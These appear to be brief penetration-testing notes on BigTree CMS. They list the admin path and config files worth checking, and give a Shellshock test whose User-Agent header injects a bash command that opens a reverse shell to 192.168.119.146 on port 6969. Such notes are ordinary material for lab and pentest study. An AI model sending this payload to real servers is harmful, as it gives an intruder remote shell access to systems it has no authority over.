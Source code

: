 # bigtree cms

## Admin Page

```bash
Try adding /admin after base-url.
```

## Interesting Files

```bash
# base dir /var/www/html
- /templates/config/*
- config.php
```

## Shellsock Test

```bash
# run nikto to confirm for Shellsock

Using Burp and changing 
User-Agent : () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.146/6969 0>&1'
```
